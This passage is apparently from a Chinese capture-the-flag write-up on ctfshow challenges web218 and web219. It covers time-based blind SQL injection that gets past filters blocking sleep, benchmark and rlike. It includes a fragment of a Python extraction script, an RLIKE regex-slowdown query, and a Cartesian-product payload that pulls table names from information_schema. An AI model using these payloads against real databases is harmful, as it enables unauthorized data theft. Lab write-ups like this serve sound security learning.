 ```python
            response = requests.post(url=url,data=data,timeout=2)
            # print(head,tail,mid)
            tail = mid
        except Exception as e:
            head = mid+1
    if head == 0:
        break
    result += chr(head)
    print(result.lower())
```

## web218~rlike正则匹配

> ```
>  function waf($str){
>         return preg_match('/sleep|benchmark/i',$str);
>     }   
> ```

把 `benchmark` 也过滤了。

不过不慌还可以通过 `RLIKE` 。

* rpad(str,len,padstr)

  返回字符串str，右填充以字符串str中垫到len字符长度。如果str为大于len，返回值被缩短至len个字符。

* repeat(str,count)

  返回由字符串str重复count次的字符串。 如果计数小于1，则返回一个空字符串。返回NULL如果str或count为NULL。

* like 的内容不是正则，而是通配符

* rlike 的内容可以是正则

如`select rpad('a',2,'a') RLIKE concat(repeat('(a.*)+',2222222),'b');` 耗时 4 秒左右

但是从web有点奇怪，就只返回固定的一小段时间。差不多 1 秒。

换种方式，迪卡尔积

payload:

```
debug=1&ip=if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>1,(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),0)
```

## web219~笛卡尔积

> ```
>  function waf($str){
>         return preg_match('/sleep|benchmark|rlike/i',$str);
>     }  
> ```
